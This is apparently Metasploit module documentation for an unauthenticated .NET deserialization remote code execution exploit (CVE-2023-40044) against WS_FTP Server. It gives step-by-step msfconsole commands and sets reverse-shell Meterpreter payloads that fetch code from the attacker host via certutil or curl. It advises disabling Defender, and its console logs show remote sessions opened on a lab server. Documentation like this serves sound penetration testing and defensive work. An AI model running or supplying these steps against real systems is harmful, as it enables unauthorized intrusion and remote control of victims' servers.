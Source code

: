 ## Vulnerable Application
This module exploits an unsafe .NET deserialization vulnerability to achieve unauthenticated remote code
execution against a vulnerable WS_FTP server running the Ad Hoc Transfer module. All versions of WS_FTP Server
prior to 2020.0.4 (version 8.7.4) and 2022.0.2 (version 8.8.2) are vulnerable to this issue. The vulnerability was
originally discovered by AssetNote.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/bn32f9sNax/cve-2023-40044/rapid7-analysis).

## Testing
Download and install a vulnerable version of WS_FTP server. By default the server will listen for HTTPS connections
on port 443. The vulnerability is in the Ad Hoc Transfer module which is installed by default. This exploit
module was tested against WS_FTP Server 2020.0.1 (version 8.7.1) and WS_FTP Server 2022.0.1 (version 8.8.1).

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/windows/http/ws_ftp_rce_cve_2023_40044`
3. `set RHOST <TARGET_IP>`
4. Set a Target:
    * `set target 0` for Windows Command.
    * `set target 1` for Windows Powershell.
5. Set a suitable PAYLOAD for the chosen target:
    * `set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp` for Windows Command target.
    * `set PAYLOAD x64/meterpreter/reverse_tcp` for Windows Powershell target.
6. `check`
7. `exploit`

## Scenarios

### Windows Command
```
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set target 0
target => 0
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > show options

Module options (exploit/windows/http/ws_ftp_rce_cve_2023_40044):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /AHT/            no        Target URI. Must begin with /AHT/
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      NrkcXGOM         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > check
[*] 192.168.86.50:443 - The target appears to be vulnerable. Detected a build date of 28-2-2023
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected a build date of 28-2-2023
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:49754) at 2023-10-02 11:32:33 +0100

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter >
```

### Windows Powershell

```
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set target 1
target => 1
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > show options

Module options (exploit/windows/http/ws_ftp_rce_cve_2023_40044):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /AHT/            no        Target URI. Must begin with /AHT/
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected a build date of 28-2-2023
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:49755) at 2023-10-02 11:34:01 +0100

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > 
```
